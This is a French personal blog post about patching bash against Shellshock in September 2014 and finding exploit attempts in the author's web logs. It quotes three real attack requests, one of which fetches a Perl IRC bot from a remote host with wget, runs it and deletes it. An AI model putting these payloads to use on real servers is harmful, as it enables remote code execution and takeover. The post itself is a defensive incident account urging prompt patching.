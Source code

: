 ---
layout: post
title: Shellshock, c'est passé à un cheveu
tags: serveur bash
---

Retour à hier matin, jeudi 25/9 matin, 9h05, Paris, France.

Comme tous les jours, je rafraîchis mon aggrégateur RSS en marchant vers le métro, et je lis vite tous les titres pour pré-charger les articles à lire avant que je n'aie quasiment plus de connectivité en entrant dans les boîtes à sardine.

Sur Arstechnica, il y a l'article suivant link:http://arstechnica.com/security/2014/09/bug-in-bash-shell-creates-big-security-hole-on-anything-with-nix-in-it/[Bug in Bash shell creates big security hole on anything with \*nix in it]. *scroll* *scroll* *scroll* ... 5 secondes de lecture en diagonale, et je capte "exploitable à distance" et "pleins de manières de le déclencher" (web server, dhcp, login, etc etc).

C'est du lourd, et facile à déclencher : ça fait donc environ 10-12h que "c'est connu", il faut réagir très vite. *Si c'est pas déjà trop tard !*

<!--more-->

== Patch et re-patch

Je m'arrête de marcher, histoire de garder du réseau. Je dégaine link:https://play.google.com/store/apps/details?id=org.connectbot[ConnectBot] pour me connecter sur mon serveur chez OVH, puis sur mon serveur de fichier à domicile.

Cing minutes après, il est 9h14, et mes serveurs et VM sont patchées.

	Start-Date: 2014-09-25  09:14:53
	Commandline: apt-get dist-upgrade -y
	Upgrade: bash:amd64 (4.2+dfsg-0.1, 4.2+dfsg-0.1+deb7u1)
	End-Date: 2014-09-25  09:15:04

A noter que j'ai commencé par les serveurs web, les articles reprenant l'utilisation d'appels CGI comme exemple principal : logique, c'est le point d'entrée le plus "facilement accessible".

Je continue mon chemin et ma journée en pensant "*job's done*" (link:https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271[CVE-2014-6271])

Retour à ce matin, vendredi 26/9, 9h20 à Paris. Comme hier, je rafraîchis ma brouette de RSS, et là *ouch*, un autre article link:http://arstechnica.com/security/2014/09/concern-over-bash-vulnerability-grows-as-exploit-reported-in-the-wild/[Arstechnica]. Ils n'ont pas l'habitude de faire plusieurs articles pour le plaisir, alors je l'ouvre tout de suite, ça sent mauvais...

Grand bien me fasse, j'apprends que :
- le premier patch n'a bouché le trou des variables d'environnement
- le premier bug est déjà massivement exploité dans la nature

Pire encore :
- il restait deux bugs de link:https://fr.wikipedia.org/wiki/D%C3%A9passement_de_tampon[Buffer overrun] exploitables (qui viennent d'être patchés)
- je ne sais pas encore si ces deux bugs sont déjà exploités (plus compliqué que le premier, donc j'évalue *a priori* que non)

Il est 9h39, et à nouveau, mes serveurs et VM sont à jour (à nouveau, je commence par les serveurs web). Ca y est, c'est bon le deuxième bug sus-cité est lui aussi patché (link:https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-7169[CVE-2014-7169])

	Start-Date: 2014-09-26  09:39:04
	Upgrade: bash:amd64 (4.2+dfsg-0.1+deb7u1, 4.2+dfsg-0.1+deb7u3)
	End-Date: 2014-09-26  09:39:11

Bon, à nouveau, je me dis "ok, tout est sous contrôle". Mais je me dis aussi que c'est suffisement mauvais (et j'ai été suffisement lent hier) pour qu'il y ait un risque que j'aie été infecté... ça vaudrait la peine de regarder dans les logs.

== C'est passé à un cheveu ?

Après avoir lu dans le métro  les commentaires d'un article link:http://slashdot.org/story/14/09/25/1757208/flurry-of-scans-hint-that-bash-vulnerability-could-already-be-in-the-wild[slashdot] sur le sujet, je décide de vérifier si mon/mes serveurs web ont été ciblés par les tentatives d'attaque du premier bug.

A noter que mon serveur est un serveur personnel à très petit traffic, et donc il n'y a donc que peu de chance que je sois une cible "privilégiée", mais par contre il y a toutes les chances que je me prenne des tentatives.

Et clairement c'est le cas, j'ai reçu des attaques !

Le premier attaquant est arrivé 3h20 après que j'ai patché (*soit seulement 13h après l'article !*)

	89.207.135.125
	 [25/Sep/2014:12:37:09 +0200]
	  "GET /cgi-sys/defaultwebpage.cgi HTTP/1.0"
	   "() { :;};
	    /bin/ping -c 1 198.101.206.138"

Je n'étais déjà plus vulnérable, mais dans tous les cas sa première action a été de simplement vérifier si mon serveur était vulnérable (auquel cas j'aurais envoyé un ping à une de ses machines). C'est une bonne manière de "camoufler ses traces" : les machines vulnérables n'ont aucune information sur "ce qui se serait passé si j'étais vulnérable".

Le deuxième attaquant est arrivé 11h après que j'ai patché (24h après l'article)

	82.165.144.187
	 [25/Sep/2014:20:23:17 +0200]
	  "GET /cgi-sys/defaultwebpage.cgi HTTP/1.1"
	   "() { :; };
	    /usr/bin/wget 82.165.144.187/bbbbbbbbbbbb"

Il a aussi tenté d'exploiter le premier bug, et pour ce faire a tenté de faire télécharger un fichier à mon serveur. Actuellement, j'obtiens une erreur 404, donc soit le fichier n'est plus disponible, soit l'attaquant utilise une requête HTTP plutôt qu'un ping pour recenser les cibles vulnérables.

Le troisième attaquant est arrivé ce matin, et était bien plus évolué et offensif que les précédent :

	63.131.141.125
	 [26/Sep/2014:04:15:47 +0200]
	  "GET /cgi-bin/php.fcgi HTTP/1.0"
	  "GET /fcgi-php/php HTTP/1.0"
	  "GET /cgi-bin/php.fcgi HTTP/1.0"
	  "GET /fcgi-php/php HTTP/1.0"
	   "() { :;};
	    /bin/bash -c \"
	     wget -O /var/tmp/wow1 208.118.61.44/wow1;
	     perl /var/tmp/wow1;
	     rm -rf /var/tmp/wow1\" "

Alors là : d'une part il essaie plusieurs URL afin de déclencher un process CGI, et d'autre part il essaie d'infecter sans phase de recensement : en effet, il upload un script perl, l'exécute et nettoie derrière lui. Pour information, le script Perl en question est visible sur link:http://pastebin.com/wZb9L2CW[PasteBin].

Il s'agit d'un client IRC qui permet de
- récupérer des infos système de la cible
- flooder/scanner les réseaux voisins
- de récupérer des fichiers du serveur
- envoyer du mail
- et bien sûr exécuter n'importe quel programme

Bref, simple mais efficace.

== La morale de cette histoire ?

J'ai eu de la chance... car il n'aura fallu que 13h après la publication d'une faille et que je voie de vraies tentatives arriver, et j'ai pu patcher entre temps.

Mon conseil ?
- Même si on y comprend rien, se tenir informé permet de gagner du temps
- Toujours patcher son système *rapidement*, car "quelques heures" c'est déjà long !

Il existe des outils qui regardent si des mises à jour sont disponibles (link:http://www.debian-administration.org/article/491/Automatic_package_update_nagging_with_apticron[apticron] par exemple) : ils sont extrêmement utiles pour être prévenus des upgrades dispo, **et** pour savoir s'il est urgent ou pas de les installer. C'est bien, mange-en !

